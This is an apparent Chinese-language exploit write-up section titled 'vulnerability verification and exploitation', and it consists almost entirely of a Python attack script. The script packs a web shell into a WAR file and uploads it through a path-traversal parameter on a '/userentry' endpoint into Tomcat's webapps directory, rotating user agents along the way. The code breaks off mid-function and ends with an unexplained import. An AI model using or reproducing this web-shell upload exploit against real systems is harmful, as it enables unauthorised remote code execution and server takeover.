 # 0x03 漏洞验证和利用

exp ：

```plain
import argparse
import binascii
import random
import time
import zipfile
import zlib
import urllib3
import requests

urllib3.disable_warnings()

def compressFile(shellFile, warFile):
    try:
        with zipfile.ZipFile(warFile, 'w', zipfile.ZIP_DEFLATED) as zipf:
            zipf.write(shellFile)
        zipf.close()
        return True
    except:
        return False


def getHexData(warFile):
    with open(warFile, 'rb') as warfile:
        data = warfile.read()
    warfile.close()
    compressed_data = zlib.compress(data)
    hex_data = binascii.hexlify(compressed_data).decode()
    return hex_data


def generateRandomDirectoryName(num):
    charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
    return ''.join(random.choice(charset) for _ in range(num))


def get_random_agent():
    agent_list = [
        'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36',
        'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.89 Safari/537.36'
    ]
    return agent_list[random.randint(0, len(agent_list) - 1)]


def shellUpload(url, proxy, directoryName, shellFile):
    userEntryUrl = f"{url}/userentry?accountId=/../../../tomcat/webapps/{directoryName}/&symbolName=test&base64UserName=YWRtaW4="
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "User-Agent": get_random_agent()
    }
    shellFileName = shellFile.split(".")[0]
    warFile = f"{shellFileName}.war"
    if compressFile(shellFile, warFile):
        shellHex = getHexData(warFile=warFile)
        data = binascii.unhexlify(shellHex)
        from myframework.encoder import base64_encode
```